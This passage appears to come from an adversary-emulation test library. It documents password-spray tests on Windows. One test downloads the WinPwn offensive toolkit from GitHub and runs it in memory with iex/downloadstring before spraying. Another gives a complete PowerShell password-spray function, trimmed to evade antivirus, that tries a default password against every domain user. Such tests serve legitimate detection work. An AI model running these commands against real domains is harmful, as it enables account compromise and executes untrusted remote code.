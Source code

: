 **Supported Platforms:** Windows

**auto_generated_guid:** 5ccf4bbd-7bf6-43fc-83ac-d9e38aff1d82

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
domainpassspray -consoleoutput -noninteractive -emptypasswords
```

<br/>
<br/>

## Atomic Test #6 - Password Spray Invoke-DomainPasswordSpray Light

Perform a domain password spray using the same core method of the [DomainPasswordSpray tool](https://github.com/dafthack/DomainPasswordSpray)
but without all the extra code that makes the script get blocked by many AVs.
This atomic test will attempt a single password against all users in a password list at $env:Temp\usersdpsLight.txt. You can create this file manually
or with the automated prereq_command. The prereq_command will limit the user list to 200 users by default to help you avoid massive account lockout.

**Supported Platforms:** Windows

**auto_generated_guid:** b15bc9a5-a4f3-4879-9304-ea0011ace63a

#### Inputs:

| Name       | Description                                                                | Type    | Default Value |
| ---------- | -------------------------------------------------------------------------- | ------- | ------------- |
| user_limit | The max number of users to put in the list when running the prereq_command | integer | 200           |
| password   | The password to try for each user in users.txt                             | string  | Spring2020    |

#### Attack Commands: Run with `powershell`!

```powershell
function Invoke-dpsLight ($Password, $userlist) {
$users = Get-Content $userlist
$Domain = "LDAP://" + ([ADSI]"").distinguishedName
foreach ($User in $users) {
  $Domain_check = New-Object System.DirectoryServices.DirectoryEntry($Domain, $User, $Password)
  if ($Domain_check.name -ne $null) {
    Write-Host -ForegroundColor Green "Password found for User:$User Password:$Password"
  }
  else { Write-Host ". " -NoNewline}
}
Write-Host -ForegroundColor green "Finished"
}
Invoke-dpsLight "#{password}" $env:Temp\usersdpsLight.txt
```
